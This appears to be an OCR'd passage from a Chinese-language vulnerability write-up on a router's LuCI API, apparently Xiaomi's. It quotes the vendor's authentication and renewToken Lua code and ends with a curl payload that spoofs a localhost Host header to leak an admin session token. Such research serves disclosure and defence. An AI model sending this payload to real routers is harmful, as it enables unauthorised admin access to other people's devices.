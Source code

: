 ```
        local sess = ctx.urltoken.stok
        local sdat = sauth.read(sess)
        local user
        if sdat then
            if ctx.urltoken.stok == sdat.token and (not sdat.ip or (sdat.ip and sdat.ip == ip)) then
                user = sdat.user
            end
        else
            local eu = http.getenv("HTTP_AUTH_USER")
            local ep = http.getenv("HTTP_AUTH_PASS")
            if eu and ep and luci.sys.user.checkpasswd(eu, ep) then
                -- authen = function() return eu end
                local logger = require("xiaoqiang.XQLog")
                logger.log(4, "Native Luci: HTTP_AUTH_USER &amp; HTTP_AUTH_PASS")
            end
        end
```

泄露token的漏洞文件在/usr/lib/lua/luci/controller/api/xqsystem中，漏洞函数renewToken位于第499行

```
function renewToken()
    local datatypes = require("luci.cbi.datatypes")
    local sauth = require "luci.sauth"
    local result = `{``}`
    local ip = LuciHttp.formvalue("ip")
    if ip and not datatypes.ipaddr(ip) then
        ip = nil
    end
    local session = sauth.available(ip)
    if session and session.token then
        result["token"] = session.token
    else
        local token = luci.sys.uniqueid(16)
        sauth.write(token, `{`
            user="admin",
            token=token,
            ltype="2",
            ip=ip,
            secret=luci.sys.uniqueid(16)
        `}`)
        result["token"] = token
    end
    result["code"] = 0
    LuciHttp.write_json(result)
end
```

当利用SSRF伪装成内网访问这个API的时候就可以泄露一个Token，利用payload如下

```
curl -v http://192.168.31.1:8197/cgi-bin/luci/api/xqsystem/renew_token -H 'Host: localhost'
```
